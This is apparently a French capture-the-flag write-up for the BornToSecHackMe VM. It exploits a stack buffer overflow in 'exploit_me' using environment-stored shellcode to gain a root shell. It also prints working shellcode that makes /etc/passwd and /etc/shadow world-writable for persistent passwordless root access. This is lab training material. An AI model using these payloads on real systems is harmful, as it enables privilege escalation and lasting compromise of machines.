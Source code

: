 # Branch #3

Note : Pour accéder à cette branche, suivre le writeup #1 jusqu'à avoir accès au compte zaz.

## zaz : Exploit_me (Shellcode)

Cette faille est reservée aux commerciaux startup nation, parce que la ret2libc n'est pas assez disruptive dans le milieu.
En reprenant directement le shellcode utilisé dans mon rainfall :
```
export LIDLCODE=$(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
echo 'void main(){printf("%p\n", getenv("LIDLCODE"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 # 0xbfffff94 here
```
On envoie le payload :
```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c "print 'A' * 140 + '\x90\xff\xff\xbf'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
# whoami
root
```
Cette faille est beaucoup plus puissante que la précédente, on peut rendre le fichier `/etc/passwd` editable via ce shellcode :
```
export LIDLCODE=$(python -c 'print "\x6a\x0f\x58\x68\x90\x90\xff\x01\x59\xc1\xe9\x10\x68\x90\x73\x77\x64\x5b\xc1\xeb\x08\x53\x68\x2f\x70\x61\x73\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\xb0\x01\xb3\x01\xcd\x80"')
```
Ou même /etc/shadow avec :
```
export LIDLCODE=$(python -c 'print "\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\xb0\x0f\x89\xe3\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Afin de pouvoir modifier le mot de passe de root en live et rendre son acces permanant pour tout utilisateur sans mot de passe.